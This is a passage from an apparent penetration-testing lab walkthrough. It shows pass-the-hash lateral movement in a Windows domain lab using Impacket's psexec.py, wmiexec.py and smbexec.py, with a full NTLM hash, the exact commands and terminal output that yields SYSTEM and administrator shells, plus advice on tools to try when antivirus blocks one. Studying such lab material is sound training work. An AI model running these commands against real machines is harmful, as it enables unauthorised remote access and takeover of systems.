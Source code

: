 ```
```

If we want to enter the password at the command prompt we can just leave it
away and use `psexec.py MARVEL/fcastle@10.0.2.6`.

To use a password hash instead of a cracked password we use the command
`psexec.py <user>@<target IP> -hashes <full NTLM hash>`:

```
┌──(kali㉿kali)-[~]
└─$ psexec.py administrator@10.0.2.6 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.0.2.6.....
[*] Found writable share ADMIN$
[*] Uploading file gzIdjnNB.exe
[*] Opening SVCManager on 10.0.2.6.....
[*] Creating service tgJE on 10.0.2.6.....
[*] Starting service tgJE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```



### Two more alternatives

If `psexec.py` does not work or is blocked by antivirus, we can try `wmiexec.py`
and `smbexec.py` with the same command structure instead. Both worked in our lab
environment. In general, they abuse the same features as `psexec.py`, but which
one works on a given machine depends on the settings on that machine.

```
┌──(kali㉿kali)-[~]
└─$ wmiexec.py administrator@10.0.2.6 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
thepunisher\administrator

C:\>exit
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ smbexec.py administrator@10.0.2.6 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```